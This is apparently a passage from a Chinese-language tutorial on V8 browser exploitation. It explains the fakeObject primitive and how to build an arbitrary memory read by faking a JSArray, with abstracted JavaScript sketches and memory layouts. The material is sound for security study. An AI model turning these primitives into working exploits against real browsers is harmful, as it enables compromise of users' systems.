 > 该函数需要根据实际情况自行修改，示例代码仅做了一些逻辑抽象

### fakeObject

与 addressOf 的步骤相反，将 float\_arr 的 map 改为 obj\_arr 的 map，使得在访问 float\_arr\[0] 时得到一个以 float\_arr\[0] 地址为起始的对象

```javascript
//将某个地址转换为对象
var other={"a":1};
var obj_array=[other];
var double_array=[2.1];
var obj_array_map=obj_array.getMap();//假设我们有办法获取到其 map 值
function fakeObject(target_addr)
{
	double_array[0]=int_to_float(target_addr+1n);//将地址加一以区分对象和数值
	double_array.setMap(obj_array_map);
	let fake_obj=double_array[0];
	return fake_obj;
}
```

> 该函数需要根据实际情况自行修改，示例代码仅做了一些逻辑抽象

### 任意地址读

可以尝试构造出这样一个结构：

```javascript
var fake_array=[double_array_map,int_to_float(0x4141414141414141n)];
```

其在内存中的布局应为：

```
| 32bit elements map | 32bit length | 64bit double_array_map | 64bit 0x4141414141414141 |element
| 32bit fake_array map | 32bit properties | 32bit elements | 32bit length |JSArray
```

接下来通过 addressOf 获取 fake\_array 的地址，然后就能够计算出 double\_array\_map 的地址；再通过 fakeObject 将这个地址伪造成一个对象数组，对比下面的内存布局：

```
| 32bit map addr | 32bit properties addr | 32bit elements addr | 32bit length |JSArray
```

此处的 fake\_array\[0] 成为了 JSArray 的 map 和 properties ，fake\_array\[1] 被当作了 elements addr 和 length，通过修改 fake\_array\[1] 就能够使该 elements 指向任意地址，再访问 fakeObject\[0] 即可读取该地址处的数据了(此处 double\_array\_map 需要对应为一个 double 数组的 map)

代码逻辑大致如下：

```javascript
var fake_array=[double_array_map,int_to_float(0x4141414141414141n)];4

function read64_addr(addr)
{
	var fake_array_addr=addressOf(fake_array);
	var fake_object_addr=fake_array_addr-0x10n;
	var fake_object=fakeObject(fake_object_addr);
	fake_array[1]=int_to_float(addr-8n+1n);
	return fake_object[0];
	
} 
```
